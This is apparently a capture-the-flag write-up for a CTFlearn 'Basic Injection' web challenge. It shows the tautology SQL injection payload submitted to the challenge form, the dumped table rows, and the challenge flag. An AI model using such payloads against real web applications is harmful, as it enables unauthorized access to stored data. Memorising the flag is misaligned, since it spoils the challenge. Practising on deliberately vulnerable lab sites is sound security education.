

## Basic Injection
The main idea finding the flag using basic SQL Injections to insecure web page.


#### Problem Statement:
<p align="center">

<br>


#### Step-1:
After we go to the given URL https://web.ctflearn.com/web4/, we are asked to submit something.

#### WebPage:
<p align="center">

<br>

#### Step-2:
I tried basic SQL payloads the existing database.

I tried `' OR '1' = '1`

I got the following output.
```
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```

#### The Flag is obtained:
`th4t_is_why_you_n33d_to_sanitiz3_inputs`

